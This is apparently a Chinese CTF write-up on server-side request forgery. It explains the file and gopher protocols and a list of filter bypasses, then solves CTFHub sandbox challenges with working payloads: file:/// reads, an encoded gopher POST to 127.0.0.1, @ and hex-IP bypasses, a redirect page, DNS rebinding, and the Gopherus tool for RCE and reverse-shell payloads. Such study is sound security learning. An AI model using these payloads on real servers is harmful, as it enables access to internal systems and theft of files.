# 原理

先来张图



> SSRF是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
>
> 一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

# 协议

## file

**file:/// 从文件系统中获取文件内容，如，file:///var/www/html/flag.php**
**file:// 主机名 / 路径**：当有主机名时，这里的两个斜杠 `//` 用于分隔协议名和主机名，表明接下来是主机名信息。

例如:file://127.0.0.1/path/to/file.txt

> **file:/// 路径：当访问本地文件系统时，不存在主机名，此时的三个斜杠 `///` 里，前面两个 `//` 是遵循 URI 格式规范中分隔协议名和主机名的部分，而第三个斜杠 `/` 则是路径的起始。例如 `file:///var/www/html/flag.php`，它表示访问本地系统中 `/var/www/html/flag.php` 这个文件。**

## gopher

>- **`gopher`协议是一种信息查找系统，他将`Internet`上的文件组织成某种索引，方便用户从`Internet`的一处带到另一处。在`WWW`出现之前，`Gopher`是`Internet`上最主要的信息检索工具，Gopher站点也是最主要的站点，使用`tcp70`端口。但在`WWW`出现后，`Gopher`失去了昔日的辉煌。现在它基本过时，人们很少再使用它。**
>
>- **它只支持文本，不支持图像**

```
gopher协议格式:gopher://IP:port/_{TCP/IP数据流}
```

# 几个方法

1. 利用本地地址
   - **原理**：`http://127.0.0.1`和`http://localhost`是本地回环地址，用于访问本地服务器。直接使用这些地址可以让服务器发起对自身的请求，若服务器对目标地址验证不严格，就可能被利用来访问本地资源。
   - **例子**：当用户输入`http://127.0.0.1/admin`时，服务器未对该本地地址进行限制，就会去访问本地的`admin`页面
2. 利用 [::]
   - **原理**：`[::]`在 IPv6 环境中表示本地地址，类似于 IPv4 中的`127.0.0.1`。服务器在处理 IPv6 地址时，如果存在漏洞，可能会将`[::]`解析为本地地址，从而绕过一些针对 IPv4 地址的限制。
   - **例子**：在一个支持 IPv6 的 Web 应用程序中，存在 SSRF 漏洞。输入`http://[::]:80/admin.php`，服务器在处理该请求时，将`[::]`解析为本地地址，并访问本地 80 端口的`admin.php`页面，获取敏感信息。
3. 利用 @
   - **原理**：在一些 URL 处理机制中，`@`后面的部分可能被视为不同的域名或地址。通过在指定网址后加`@ + 127.0.0.1`，可能会使服务器将`127.0.0.1`作为目标地址进行请求，而忽略前面的部分，从而实现绕过。
   - **例子**：某网站功能是获取用户输入 URL 的网页内容。用户输入`http://example.com@127.0.0.1/admin`，服务器在处理时，将请求发送到`127.0.0.1/admin`，而不是`example.com`，攻击者借此绕过了对`127.0.0.1`的限制访问。
4. 利用短域名
   - **原理**：短域名服务通常会将短域名重定向到原始的长域名。如果攻击者能够控制短域名的解析，将其指向`127.0.0.1`，那么当服务器访问短域名时，就会被重定向到本地地址，达到绕过限制的目的。
   - **例子**：注册了一个短域名`http://dwz.cn/11SMa`，并将其解析指向`127.0.0.1`。输入该短域名，服务器去访问`http://dwz.cn/11SMa`，随后被重定向到`127.0.0.1`，从而可能获取到本地服务器的敏感信息。
5. 利用特殊域名
   - **原理**：`xip.io`等特殊域名服务会根据子域名的 IP 地址进行解析。例如，`127.0.0.1.xip.io`会被解析为`127.0.0.1`。服务器在处理这类域名时，会按照域名系统（DNS）的解析结果将请求发送到本地地址，从而绕过对直接使用本地地址的限制。
   - **例子**：攻击者输入`http://127.0.0.1.xip.io/admin`，服务器根据 DNS 解析将`127.0.0.1.xip.io`解析为`127.0.0.1`，并访问本地的`admin`页面，获取敏感数据。
6. 利用 DNS 解析
   - **原理**：通过在域名上设置 A 记录，将其指向`127.0.0.1`，可以使服务器在访问该域名时，根据 DNS 解析结果将请求发送到本地地址。这是利用了服务器对域名解析的信任，只要域名能正确解析到本地地址，就可以绕过一些基于 IP 地址的访问限制。
   - **例子**：攻击者拥有一个域名`evil.com`，在 DNS 管理界面将该域名的 A 记录指向`127.0.0.1`。在存在 SSRF 漏洞的网站中，用户输入`http://evil.com/admin`，服务器根据 DNS 解析将请求发送到本地的`127.0.0.1/admin`，攻击者可能获取到本地服务器的敏感内容。
7. 利用上传
   - **原理**：将文件上传字段的类型从`file`修改为`url`，使得服务器在处理上传时，将用户提交的 URL 作为数据进行处理。如果服务器对上传的 URL 没有进行严格的验证和过滤，就可能会发起对该 URL 的请求，从而导致 SSRF 漏洞被利用。
   - **例子**：原本上传表单的字段是`<input type="file" name="upload">`，攻击者通过抓包修改该字段为`<input type="url" name="upload">`，然后在输入框中填写`http://127.0.0.1/admin`，服务器会将其当作 URL 进行访问，可能获取到本地`admin`页面的敏感信息。
8. 利用句号
   - **原理**：将正常的点号（`.`）替换为全角或其他特殊形式的句号，服务器在处理地址时，可能会将其错误地解析为正常的点号，从而将`127。0。0。1`识别为`127.0.0.1`，实现绕过。这是利用了服务器对地址格式验证的不严格性。
   - **例子**：在一个存在 SSRF 漏洞且对输入的 IP 地址有一定过滤规则（限制直接输入`127.0.0.1`）的系统中，输入`127。0。0。1`，由于服务器对特殊句号的处理不当，将其解析为`127.0.0.1`，并访问本地服务器，获取到了敏感信息。
9. 进行进制转换
   - **原理**：将 IP 地址进行进制转换，如从十进制转换为十六进制或八进制，然后在请求中使用转换后的地址。服务器在处理这些地址时，如果对不同进制的地址解析存在漏洞，可能会将其解析为原始的 IP 地址，从而绕过基于十进制 IP 地址的过滤或限制。
   - **例子**：已知目标服务器存在 SSRF 漏洞且过滤了十进制的`127.0.0.1`。攻击者将`127.0.0.1`转换为十六进制`0x7F.0x00.0x00.0x01`，然后在漏洞输入处输入`http://0x7F.0x00.0x00.0x01/admin`，服务器在解析时将十六进制转换回十进制，并访问本地的`admin`页面，攻击者获取到了敏感数据。
10. 利用特殊地址
    - **原理**：`http://0/`可能被服务器解析为本地地址或默认的回环地址。这是因为在一些网络配置或服务器处理机制中，`0`被视为特殊的本地地址标识，从而导致请求被发送到本地服务器，实现 SSRF 绕过。
    - **例子**：输入`http://0/admin`，服务器将`0`解析为本地回环地址`127.0.0.1`，并访问本地的`admin`页面，攻击者通过这种方式绕过了对`127.0.0.1`的限制，获取到了敏感信息。


# 题目

## 内网访问



url后加上地址，直接访问就行





**flag:ctfhub{b808c03115dc747cca170205}**

## 伪协议读取文件



访问file:///var/www/html/flag.php

> - 



查看源码



**flag:ctfhub{0a68d1edbc7aaf74c3182b4b}**

## 端口扫描



使用bp,在url=后加上127.0.0.1:，后面是狙击点



使用数值



有一个长度不一样的






**flag:ctfhub{dc071b1db5358a23fe2964c0}**

## POST请求



用dirsearch扫描一下



发现有/flag.php



源码：



输点东西进去，提示只能从内网访问



伪协议file看一下

```http://challenge-c31e7c56cac9116a.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php```



```http://challenge-c31e7c56cac9116a.sandbox.ctfhub.com:10800/?url=file:///var/www/html/index.php```



> 好像意思是要把key在flag.php中传进去，而且要从127.0.0.1的内网传（好像是得），就能输出flag,没大看懂
>

使用gopher，一个post协议

>POST /flag.php HTTP/1.1
>Host: 127.0.0.1:80
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 36
>
>key=facbefd1b5ad715b28f22f69767de786





**flag:ctfhub{3772ca39025f9412dab29936}**

## 上传文件





dirsearch扫描一下



发现有个flag.php



打开后是文件上传





加个提交按钮



~~上传一句话木马后显示只能从127.0.0.1上看~~

> 看了一下别人的wp发现和一句话木马没关系，为啥要叫webshell，以为要上传一句话呢

上传一个文本文件




用gopher协议

```
POST /flag.php HTTP/1.1
Host: challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Length: 333
Origin: http://challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800
Connection: close
Referer: http://challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache

------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Disposition: form-data; name="file"; filename="ss.txt"
Content-Type: text/plain

111
------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Disposition: form-data; name="submit"

提交查询
------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8--

```



``` 
url=gopher://127.0.0.1:80/_POST%2520%252Fflag%252Ephp%2520HTTP%252F1%252E1%250D%250AHost%253A%2520challenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%250D%250AUser%252DAgent%253A%2520Mozilla%252F5%252E0%2520%2528Windows%2520NT%252010%252E0%253B%2520Win64%253B%2520x64%253B%2520rv%253A136%252E0%2529%2520Gecko%252F20100101%2520Firefox%252F136%252E0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0%252E9%252C%252A%252F%252A%253Bq%253D0%252E8%250D%250AAccept%252DLanguage%253A%2520zh%252DCN%252Czh%253Bq%253D0%252E8%252Czh%252DTW%253Bq%253D0%252E7%252Czh%252DHK%253Bq%253D0%252E5%252Cen%252DUS%253Bq%253D0%252E3%252Cen%253Bq%253D0%252E2%250D%250AAccept%252DEncoding%253A%2520gzip%252C%2520deflate%252C%2520br%250D%250AContent%252DType%253A%2520multipart%252Fform%252Ddata%253B%2520boundary%253D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DLength%253A%2520333%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%252F%253Furl%253D127%252E0%252E0%252E1%252Fflag%252Ephp%250D%250AUpgrade%252DInsecure%252DRequests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250APragma%253A%2520no%252Dcache%250D%250ACache%252DControl%253A%2520no%252Dcache%250D%250A%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DDisposition%253A%2520form%252Ddata%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522ss%252Etxt%2522%250D%250AContent%252DType%253A%2520text%252Fplain%250D%250A%250D%250A111%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DDisposition%253A%2520form%252Ddata%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%25E6%259F%25A5%25E8%25AF%25A2%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%252D%252D%250D%250A
```



**flag:ctfhub{b2184ba24b1f73711bbc433a}**

## URL Bypass






必须以```http://notfound.ctfhub.com```开头，利用@

前几题都是在flag.php，不扫了

```http://challenge-8969491d76b728e9.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php```



**flag:ctfhub{cea33271e701772ca5d81eb8}**

## 数字IP Bypass



127不能用了，先试试[::]，不管用

把127.0.0.1换成16进制```0x7F.0x00.0x00.0x01```



**flag:ctfhub{83543fbfc136ce38c99b0eef}**

## 302跳转 Bypass



虽然说了是302跳转但也可以不用302跳转，有两中方法

### 方法1

去自己的vps上的网站上新建个页面

``` php
<?php
if(isset($_GET['url'])){
    header("Location: {$_GET['http://127.0.0.1/flag.php']}");
    exit;
}
?>
```

```http://challenge-f16e2f72d68913ad.sandbox.ctfhub.com:10800/?url=catblog.ggff.net/ctf/zd.php```



### 方法2

file看一下源码





发现对localhost并没有过滤

访问```http://challenge-f16e2f72d68913ad.sandbox.ctfhub.com:10800/?url=localhost/flag.php```



**flag:ctfhub{6fccc197195e2c5860463261}**

# SSRF（二）

## DNS重绑定 Bypass

**题目：**



附件：[浅谈DNS重绑定漏洞 - 知乎](https://zhuanlan.zhihu.com/p/89426041)        附件详细介绍了DNS重绑定的漏洞

先看一下flag.php,只能内网访问



file看一下

```php

<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    exit;
}

echo getenv("CTFHUB");

```

再file看一下index.php，有个黑名单

```php

<?php

error_reporting(0);

if (!isset($_REQUEST['url'])) {
    header("Location: /?url=_");
    exit;
}

$url = $_REQUEST['url'];

if (preg_match("/127|172|10|192/", $url)) {
    exit("hacker! Ban Intranet IP");
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
```

使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)来模拟 DNS 重绑

> rbndr 利用特定的域名格式`<ipv4十六进制>.<ipv4十六进制>.rbndr.us`来实现 IP 地址之间的切换，其服务器通过随机选择主机名中指定的一个地址并以非常低的 TTL（Time to Live，生存时间）作为回复来响应查询，从而模拟 DNS 重绑定攻击，帮助开发者识别和修复相关安全漏洞。




**flag:ctfhub{f2555bbb8314bfb444f6fbc4}**

## FastCGI协议

fastcgi是一种通信协议，和http一样

> HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。
>
> 类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。

record的头固定8字节

```http
typedef struct {
  /* Header */
  unsigned char version; // 版本
  unsigned char type; // 本次record的类型
  unsigned char requestIdB1; // 本次record对应的请求id
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // body体的大小
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 
 
  /* Body */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```

大体了解一下fastcgi。。。看了很多介绍没大看懂

##  Gopherus工具

工具: [Gopherus](https://github.com/tarunkant/Gopherus)

功能：生成针对 SSRF 漏洞的 Gopher 载荷，以实现远程代码执行（RCE）或获取目标服务器上的反向 Shell 等操作。

| 命令               | 描述                  |
| ------------------ | --------------------- |
| gopherus --help    | 帮助                  |
| gopherus --exploit | 参数 :                |
|                    | --exploit mysql       |
|                    | --exploit postgresql  |
|                    | --exploit fastcgi     |
|                    | --exploit redis       |
|                    | --exploit zabbix      |
|                    | --exploit pymemcache  |
|                    | --exploit rbmemcache  |
|                    | --exploit phpmemcache |
|                    | --exploit dmpmemcache |
|                    | --exploit smtp        |
